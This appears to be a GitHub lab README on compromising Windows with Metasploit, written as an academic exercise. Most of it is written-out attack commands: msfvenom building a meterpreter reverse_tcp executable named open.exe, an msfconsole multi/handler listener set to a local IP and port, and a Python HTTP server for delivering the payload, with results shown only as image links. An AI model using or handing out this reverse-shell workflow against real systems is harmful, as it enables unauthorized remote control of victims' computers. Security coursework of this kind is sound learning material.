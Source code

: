 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
```msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.66.29 LPORT=1234 --platform=windows -f exe>open.exe```

```msfconsole -q```

```set PAYLOAD windows/meterpreter/reverse_tcp```

```use exploit/multi/handler```

```set LHOST 192.168.66.29```

```set LPORT 1234```

```run```

## OUTPUT

![440704157-e9635a54-219d-4435-9247-440690254853](https://github.com/user-attachments/assets/8712c1d5-fdc1-42fb-970e-952023c727fa)

```python3 -m http.server 5678```

## OUTPUT

![440704260-da793e31-df02-4d4a-8387-9bd2557df737](https://github.com/user-attachments/assets/316690b4-b1af-44b2-9883-afbd20f44f5e)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
